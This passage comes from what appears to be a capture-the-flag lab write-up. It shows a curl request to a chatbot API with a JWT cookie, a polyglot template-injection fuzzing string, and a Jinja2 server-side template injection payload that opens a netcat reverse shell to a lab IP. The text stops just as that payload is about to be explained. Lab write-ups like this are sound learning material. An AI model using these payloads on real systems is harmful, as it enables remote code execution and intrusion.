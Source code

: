 ```jsx
┌──(neo㉿neo)-[~]
└─$ curl -X POST http://storage.cloudsite.thm/api/fetch_messeges_from_chatbot \
  -H "Content-Type: application/json" \
  -H "Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6Im1lb0B0aG0uYyIsInN1YnNjcmlwdGlvbiI6ImFjdGl2ZSIsImlhdCI6MTc0ODYyNjEwNCwiZXhwIjoxNzQ4NjI5NzA0fQ.k9VOlXafH6k8ue3cAFcyWvgKwHfUWrWHpNgl6iEPIMI" \
  -d '{"username":"admin"}'

<!DOCTYPE html>
<html lang="en">
 <head>
   <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
       <title>Greeting</title>
 </head>
 <body>
   <h1>Sorry, admin, our chatbot server is currently under development.</h1>
 </body>
</html>                                                                                   

```

## Exploit & Initial Access

### 💥 Let's Try a Polygot SSTI Payload

You mentioned using a **polyglot payload** like:

```
${{<%[%'"}}%\.
```

This is a *fuzzing payload* designed to **trigger different template engines** (like Jinja2, Twig, ERB, etc.).

![Screenshot From 2025-05-31 01-38-33.png](img15.png)

This causes an error on the **Jinja2** templating

![Screenshot From 2025-05-31 01-39-07.png](img16.png)

### This payload is a **Jinja2 SSTI (Server-Side Template Injection)** used to achieve **Remote Code Execution (RCE)** by initiating a reverse shell. Here's a breakdown and how you can use it properly and safely during a CTF or lab:

```jsx
"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.0.99 443 >/tmp/f').read() }}"
```

This payload:
